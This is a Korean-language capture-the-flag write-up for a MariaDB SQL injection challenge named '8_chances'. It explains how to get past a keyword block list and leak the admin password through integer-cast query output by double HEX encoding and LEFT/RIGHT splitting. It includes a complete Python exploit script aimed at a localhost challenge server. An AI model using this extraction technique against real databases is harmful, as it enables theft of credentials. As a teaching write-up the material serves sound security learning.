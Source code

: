 # 8_chances

#### 출제자 : 조수호 / shielder

## Concept

- sql injection
- mariadb

## Writeup

주요 기능을 정리해보겠습니다.
1. `reset` : `chance`를 8로 초기화합니다.
2. `test` : 입력한 쿼리를 실행시켜줍니다. 이 때 쿼리에
   `['union', 'update', 'sleep', 'concat', 'like', 'set', '@', '!', '%', '_', '\t','\n','\r','\v','\f', '/', '*', '#']`
   을 포함하면 안 됩니다.
3. `real` : `username`과 `password`를 입력받고 이것이 `admin`의 정보와 일치하면 `flag`를 줍니다. 이 때 `username`과 `password`는
   `string.punctuation + string.whitespace + string.digits`
   을 포함하면 안 됩니다.

`test` 기능을 자세히 보겠습니다.
`chance >= 8`이면 `admin`의 `password`를 교체합니다. 그리고 `test` 실행마다 `chance`가 1씩 증가하기 때문에 한 번 정해진 `password`는 8번의 쿼리 동안 유지됩니다. 쿼리 실행 결과의 요소가 1개이고, 그 `value`가 정수형이라면 출력해줍니다.
8번의 쿼리만을 `password`를 알아내야 합니다. 쿼리 실행 결과가 정수형이어야 출력을 볼 수 있으므로 `CAST(... as INT)`를 사용합니다. `INT`는 `BIGINT`로(`9,223,372,036,854,775,807`) 19글자의 숫자로 이루어진 문자열을 정수형으로 바꿀 수 있습니다. 생각을 조금만 더 하면, `UNSIGNED`를 사용하면 확정적으로 19글자를 정수형으로 출력할 수 있습니다.
이제 `password`를 길이가 `19 * 8 = 152` 이하인 숫자로 이루어진 문자열로 바꿔야 합니다. 숫자로 이루어진 문자열로 바꿔야 함에 집중해봅시다. 아스키코드표를 살펴보면, `[0-9a-fA-F]`를 `HEX`로 나타내면 모두 숫자로 이루어짐을 알 수 있습니다. 따라서 어떤 문자열이든 `HEX`를 두 번 씌우면 숫자로 이루어진 문자열로 만들 수 있습니다. `password` 초기화 과정에서 알 수 있는 점은 길이가 38인 점, `string.ascii_letters`로 이루어져 있다는 점입니다. `HEX`를 두 번 씌우면 문자열의 길이가 4배가 되므로 최종 길이는 `38 * 4 = 152`입니다. 조건과 정확히 일치합니다. 문자열을 8등분 하는 것은 `LEFT`와 `RIGHT` 함수로 해결할 수 있습니다.

## ex.py

```python
import requests

base_url = "http://localhost:10000/"

def reset():
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : "1",
        "type" : "reset"
    }
    requests.post(base_url, data=data)

def test(testquery : str):
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : testquery,
        "type" : "test"
    }
    res = requests.post(base_url, data=data)
    msg = res.text
    msg = msg.split('\n')[110].split('<')[1].split('>')[1]
    return msg

def real(ps : str):
    data = {
        "user" : "admin",
        "pass" : ps,
        "testquery" : "1",
        "type" : "real"
    }
    res = requests.post(base_url, data=data)
    return res.text

def lef(s : str, n : int):
    return "LEFT(" + s + f", {str(n)})"

def rig(s : str, n : int):
    return "RIGHT(" + s + f", {str(n)})"

def outline(s : str):
    return "SELECT CAST(" + s + " as UNSIGNED)"

base_payload = f"""
HEX(HEX((SELECT password FROM users WHERE username='admin')))
""".strip()

reset()
pw = ""
pw += test(outline(lef(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(rig(base_payload, 76), 38), 19)))
realpw = bytes.fromhex(bytes.fromhex(pw).decode()).decode()
print(realpw)
print(real(realpw))
```

8등분하는 방법은 여러 가지입니다. 예를 들어 `LEFT`와 `REVERSE` 함수만으로도 비슷한 논리를 이용하여 해결할 수 있습니다.